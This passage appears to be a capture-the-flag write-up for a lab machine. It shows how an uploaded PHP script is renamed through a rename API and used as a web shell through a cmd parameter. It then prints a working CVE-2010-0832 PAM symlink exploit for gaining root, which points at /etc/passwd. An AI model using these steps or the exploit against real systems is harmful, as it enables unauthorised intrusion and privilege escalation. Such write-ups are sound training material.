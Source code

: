 ![foundEvilTorrent](/assets/{{ imgDir }}/foundEvilTorrent.png)

By visiting `http://10.10.10.6/torrent/torrents/b44b82a4bc6c35f6ad5e9fceefef9509c17fba74.btf` we can see the content of the malicious torrent file we submitted. However, the PHP code is not being executed. As such, we need to somehow modify the file extension of the script. Earlier, we discovered an API for renaming files. We can use this API to alter the file extension. This can be performed by visiting the URL
`http://10.10.10.6/rename/index.php?filename=/var/www/torrent/torrents/b44b82a4bc6c35f6ad5e9fceefef9509c17fba74.btf&newfilename=/var/www/torrent/torrents/b44b82a4bc6c35f6ad5e9fceefef9509c17fba74.php`

Upon visiting the URL, we get the message `OK!`, suggesting that the renaming operation was successful. Then, we can execute code by visiting 
`http://10.10.10.6/torrent/torrents/b44b82a4bc6c35f6ad5e9fceefef9509c17fba74.php?cmd=[command]` where `[command]` is the command we want to execute, as demonstrated in the image below. At this point, we can get a shell on the host with the netcat reverse shell payload as [explained earlier]({{path}}#reverse-shell).

![bonusId](/assets/{{ imgDir }}/bonusId.png)

The next step is to perform a privilege escalation from `www-data` to `root`. There are two ways to do this. The first way is to abuse a known vulnerability in Linux PAM and the second is through kernel exploitation, as we will see in the next two sections.

# Privilege Escalation - Linux PAM
Linux [Pluggable Authentication Modules](https://en.wikipedia.org/wiki/Linux_PAM) (PAM) is a set of libraries that can be used to configure authentication mechanisms in a centralized manner. It makes it possible to separate authentication mechanisms from source code by allowing the configuration of these mechanisms through configuration files. PAM can for example be used to check if a user account is valid, to authenticate a user or to enforce the usage of strong passwords. 

We can search for PAM among the list of installed packages by executing the command `dpkg -l | grep pam`. One of the lines in the output of the command states that version `1.1.0-2ubuntu1` of `libpam-modules` is being used. By executing `lsb_release -a`, it is possible to see that the OS of the target is `Ubuntu 9.10`. Using this particular version of `libpam-modules` on `Ubuntu 9.10` makes the host vulnerable to [CVE-2010-0832](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-0832) which has an exploit available on [ExploitDB](https://www.exploit-db.com/exploits/14273). The content of this exploit is shown below. By reading the code of the exploit, it is possible to see that the actual exploitation takes place at line 11 `ln -sf $1 $HOME/.cache` where the exploit creates a symbolic link from the `.cache` directory in a user's home directory, to a file we want access to. From the code, and from [Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-0832), it is evident that the file which we create a symbolic link to will be owned by our user the next time we log in. 

{% highlight bash linenos %}
if [ $# -eq 0 ]; then
    echo "Usage: $0 /path/to/file"
    exit 1
fi

mkdir $HOME/backup 2> /dev/null
tmpdir=$(mktemp -d --tmpdir=$HOME/backup/)
mv $HOME/.cache/ $tmpdir 2> /dev/null
echo "\n@@@ File before tampering ...\n"
ls -l $1
ln -sf $1 $HOME/.cache
echo "\n@@@ Now log back into your shell (or re-ssh) to make PAM call vulnerable MOTD code :)  File will then be owned by your user.  Try /etc/passwd...\n"
{% endhighlight %}
